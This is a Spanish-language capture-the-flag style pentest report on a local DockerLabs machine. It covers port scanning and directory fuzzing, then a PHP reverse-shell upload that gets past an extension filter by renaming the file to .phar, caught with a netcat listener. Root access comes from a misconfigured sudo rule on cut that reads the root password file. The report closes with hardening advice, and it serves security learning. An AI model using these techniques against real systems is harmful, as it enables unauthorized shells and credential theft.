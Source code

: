 # 🛡️ Informe de Pentesting - DockerLabs

---

## 📄 Información General

* **Máquina**: DockerLabs
* **Objetivo**: Obtener acceso root
* **Descripción**: Análisis completo de una máquina vulnerable desplegada con Docker, enfocándose en la enumeración, explotación y escalada de privilegios.

---

## ⚙️ 1. Despliegue de la Máquina

Primero, descargamos y extraemos la máquina vulnerable:

```bash
unzip dockerlabs.zip
```

Después, la desplegamos con el script automático:

```bash
sudo bash auto_deploy.sh dockerlabs.tar
```
![Despliegue](Imágenes/Logo.png)

---

## 📶 2. Verificación de Conectividad

Hacemos ping a la IP de la máquina para asegurarnos de que está activa:

```bash
ping -c1 172.17.0.2
```

![Ping](Imàgenes/Capturas.png)

---

## 🔍 3. Enumeración de Puertos con Nmap

Escaneamos todos los puertos para encontrar servicios activos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Nmap puertos](Imàgenes/Capturas_1.png)

Extraemos los puertos encontrados usando un script personalizado:

```bash
extractPorts allPorts.txt
```

Luego realizamos un escaneo más profundo:

```bash
nmap -sC -sV -p 80 172.17.0.2 -oN target.txt
```

![Nmap detalle](Imàgenes/Capturas_2.png)

---

## 🌐 4. Análisis Web

Accedemos al sitio en `http://172.17.0.2/`:

![Página principal](Imàgenes/Capturas_4.png)

### 🔦 Fuzzing con Wfuzz

Buscamos directorios ocultos con:

```bash
wfuzz -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://172.17.0.2/FUZZ
```

Se descubre `/uploads`.

![wfuzz](Imàgenes/Capturas_6.png)

Ingresamos en:

```url
http://172.17.0.2/uploads/
```

![Uploads](Imàgenes/Capturas_5.png)

### 🔎 Descubrimiento adicional con Gobuster

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

![Gobuster](Imàgenes/Capturas_7.png)

Rutas identificadas:

* `/index.php`
  ![index](Imàgenes/Capturas_9.png)
* `/uploads/`
  ![uploads](Imàgenes/Capturas_8.png)
* `/upload.php`
  ![upload](Imàgenes/Capturas_10.png)
* `/machine.php`
  ![machine](Imàgenes/Capturas_11.png)

---

## 🐚 5. Carga de Web Shell (Reverse Shell)

El formulario en `/machine.php` indica que solo se aceptan archivos `.zip`. Usamos la técnica de **doble extensión**.

### 💾 Código PHP de reverse shell:

Obtenido desde:
[https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

Cambiamos la IP y el puerto y luego renombramos el archivo:

```bash
mv php-reverse-shell.php php-reverse-shell.php.zip
```

![Archivo cargado](Imàgenes/Capturas_13.png)

El archivo se carga correctamente:

![Éxito](Imàgenes/Capturas_14.png)
![Verificado en uploads](Imàgenes/Capturas_15.png)

Pero al intentar ejecutarlo, no se activó la shell. Probamos cambiando la extensión a `.phar`:

```bash
mv php-reverse-shell.php.zip php-reverse-shell.phar
```

![Cambio a .phar](Imàgenes/Capturas_19.png)

---

### 🎧 Escucha con Netcat

Antes de activar el archivo malicioso, iniciamos Netcat:

```bash
sudo nc -lvnp 443
```

![Netcat](Imàgenes/Capturas_18.png)

Luego accedemos al archivo desde el navegador. ¡La shell se activa!

![Shell activa](Imàgenes/Capturas_21.png)

---

## 🔐 6. Escalada de Privilegios

### 🧪 Revisión de permisos con `sudo -l`

```bash
sudo -l
```

Resultado:

```text
User www-data may run the following commands on dockerlabs:
    (ALL) NOPASSWD: /usr/bin/cut
```

Esto significa que el usuario `www-data` puede ejecutar el comando `cut` como root, sin necesidad de contraseña.

---

### 🔎 Exploración y descubrimiento de pistas

Buscamos archivos interesantes:

```bash
cd /opt/
cat nota.txt
```

Contenido:

> Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.

---

### ✂️ Explotación del permiso con `cut`

Aunque no podemos leer directamente el archivo, usamos `cut` con sudo para hacerlo como root:

```bash
sudo /usr/bin/cut -d "" -f1 /root/clave.txt
```

![Clave root](Imàgenes/Capturas_22.png)

**¿Por qué funciona?**

* `cut` espera un delimitador, pero aquí se pasó uno vacío (`""`).
* Esto puede fallar en sistemas más estrictos, pero en este caso devolvió toda la línea del archivo (probablemente porque no había delimitadores).
* Así conseguimos leer **la clave root** sin permisos de lectura directos.

---

### 🔓 Acceso Root

Con la clave obtenida, accedemos como root:

```bash
su root
```

🎉 ¡Acceso total a la máquina!

---

## ✅ Conclusiones

| Fase               | Resultado                                                 |
| ------------------ | --------------------------------------------------------- |
| Escaneo de puertos | Descubierto puerto 80 (HTTP)                              |
| Análisis web       | Directorios `/uploads`, `/upload.php`, `/machine.php`     |
| Explotación        | Web shell vía `.phar` + reverse shell con Netcat          |
| Escalada           | Acceso a archivo root mediante `sudo cut` mal configurado |

---

### ⚠️ Recomendaciones de Seguridad

* **Nunca** otorgar permisos `sudo` sin contraseña a comandos como `cut`, `less`, `vim`, etc.
* Validar extensiones de archivo de forma segura (no solo por el nombre).
* Configurar entornos aislados y sin privilegios para aplicaciones web.

